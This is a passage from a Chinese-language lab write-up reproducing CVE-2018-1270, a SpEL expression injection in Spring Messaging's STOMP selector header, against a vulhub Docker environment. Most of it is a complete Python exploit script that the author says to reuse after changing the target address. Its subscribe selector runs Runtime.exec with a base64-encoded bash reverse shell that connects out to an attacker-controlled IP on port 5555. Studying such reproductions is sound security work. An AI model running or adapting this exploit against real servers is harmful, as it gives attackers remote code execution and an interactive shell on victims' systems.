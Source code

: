     
    
    Expression expression = sub.getSelectorExpression();if (expression == null) {    result.add(sessionId, subId);} else {    if (context == null) {        context = new StandardEvaluationContext(message);        context.getPropertyAccessors().add(new DefaultSubscriptionRegistry.SimpMessageHeaderPropertyAccessor());    }    try {        if (Boolean.TRUE.equals(expression.getValue(context, Boolean.class))) {            result.add(sessionId, subId);        }    } catch (SpelEvaluationException var13) {        if (this.logger.isDebugEnabled()) {            this.logger.debug("Failed to evaluate selector: " + var13.getMessage());        }    } catch (Throwable var14) {        this.logger.debug("Failed to evaluate selector", var14);    }}

那么一是可以利用`sub.getSelectorExpression()`得到selector的表达式，二是利用`Boolean.TRUE.equals(expression.getValue(context,
Boolean.class))`获取表达式的值，从而造成命令执行

## 漏洞复现

进入CVE-2018-1270的docker漏洞环境

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817102000.png)

访问http://192.168.1.10:8080/gs-guide-websocket

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817102001.png)

这里直接使用前辈们写好的exp，注意修改一下bash命令和靶机地址即可

    
    
    #!/usr/bin/env python3import requestsimport randomimport stringimport timeimport threadingimport loggingimport sysimport json logging.basicConfig(stream=sys.stdout, level=logging.INFO) def random_str(length):    letters = string.ascii_lowercase + string.digits    return ''.join(random.choice(letters) for c in range(length))  class SockJS(threading.Thread):    def __init__(self, url, *args, **kwargs):        super().__init__(*args, **kwargs)        self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'        self.daemon = True        self.session = requests.session()        self.session.headers = {            'Referer': url,            'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'        }        self.t = int(time.time()*1000)     def run(self):        url = f'{self.base}/htmlfile?c=_jp.vulhub'        response = self.session.get(url, stream=True)        for line in response.iter_lines():            time.sleep(0.5)         def send(self, command, headers, body=''):        data = [command.upper(), '\n']         data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))                 data.append('\n\n')        data.append(body)        data.append('\x00')        data = json.dumps([''.join(data)])         response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)        if response.status_code != 204:            logging.info(f"send '{command}' data error.")        else:            logging.info(f"send '{command}' data success.")     def __del__(self):        self.session.close()  sockjs = SockJS('http://192.168.1.10:8080/gs-guide-websocket')sockjs.start()time.sleep(1) sockjs.send('connect', {    'accept-version': '1.1,1.0',    'heart-beat': '10000,10000'})sockjs.send('subscribe', {    'selector': "T(java.lang.Runtime).getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}')",    'id': 'sub-0',    'destination': '/topic/greetings'}) data = json.dumps({'name': 'vulhub'})sockjs.send('send', {    'content-length': len(data),    'destination': '/app/hello'}, data)

首先还是bash编码

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817102002.png)
